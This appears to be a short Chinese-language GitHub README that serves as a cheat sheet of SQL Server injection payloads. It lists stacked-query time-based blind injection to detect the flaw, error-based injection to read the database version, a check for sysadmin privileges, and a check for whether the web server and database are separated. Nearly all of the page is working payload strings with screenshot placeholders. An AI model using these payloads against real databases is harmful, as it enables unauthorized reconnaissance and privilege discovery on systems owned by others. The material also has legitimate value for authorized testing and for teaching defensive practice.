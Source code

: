 ### 0、堆叠查询+时间盲注检测漏洞是否存在
```
select session_id from sys.dm_exec_requests where session_id=12; waitfor delay '0:0:5'--
```
![image](./pic/0.png)

### 1、报错注入查询数据库版本
```
select session_id,command from sys.dm_exec_requests where session_id=12 or 1=@@VERSION;
```
![image](./pic/1.png)

### 2、堆叠查询+时间盲注查询当前用户是否为dba
```
select session_id,command from sys.dm_exec_requests where session_id=12;if(1=(select is_srvrolemember('sysadmin'))) waitfor delay '0:0:5'--
```
![image](./pic/2.png)

### 3、堆叠查询+时间盲注查询是否站库分离
```
select session_id from sys.dm_exec_requests where session_id=12;if(host_name()=@@servername)waitfor delay '0:0:5';--
host_name()：连接数据库管理系统的工作站所在机器的计算机名
@@servername：数据库管理系统所在机器的计算机名
参考链接：
https://docs.microsoft.com/en-us/sql/t-sql/functions/host-name-transact-sql?view=sql-server-ver15
https://docs.microsoft.com/en-us/sql/t-sql/functions/servername-transact-sql?view=sql-server-ver15
```
![image](./pic/3.png)

